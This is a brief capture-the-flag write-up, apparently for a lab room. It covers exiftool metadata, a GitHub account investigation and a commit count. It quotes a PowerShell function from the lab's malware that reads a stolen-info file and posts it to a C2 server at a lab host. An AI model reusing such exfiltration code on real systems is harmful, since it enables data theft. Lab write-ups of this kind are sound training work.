 #Writeup

After running the
```bash
exiftool song.mp3
```
we can see that the actual autho of the song is listed as Tyler Ramsbey.

For the second flag, if we follow the link to the malicious code, if we read through the source code we can see the following function:
```php
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
```
we can clearly see that the c2Url variable contains the link to the C2 server which is in fact the correct flag.


From the github issue, if we follow the M.M. account we can see they have a repo for their profile, in which they have the name Mayor Malware which is the 3rd flag.

Finally for the 4th flag we can check the number of commits the repo that made the issue has which is just 1 commit.